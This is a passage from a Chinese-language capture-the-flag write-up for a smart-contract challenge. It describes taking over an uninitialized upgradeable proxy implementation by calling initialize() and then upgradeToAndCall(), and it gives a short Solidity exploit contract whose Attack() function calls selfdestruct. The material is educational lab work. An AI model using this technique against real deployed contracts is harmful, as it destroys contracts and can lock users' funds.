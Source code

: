 果然是0，那后面就简单了，调用` initialize() `将我们自己设置为升级者，然后调用` upgradeToAndCall() `替换我们自己实现的销毁合约并执行即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Exp {
    function Attack() public {
        selfdestruct(payable(msg.sender));
    }
    // 注释即可，用来算calldata的
    // 0xf28adc4d
    function getHash() public pure returns (bytes memory){
        return abi.encodeWithSignature("Attack()");
    }
}
```

首先初始化：

![image-20250218005504283](./assets/image-20250218005504283.png)

销毁合约：

![image-20250218005643590](./assets/image-20250218005643590.png)
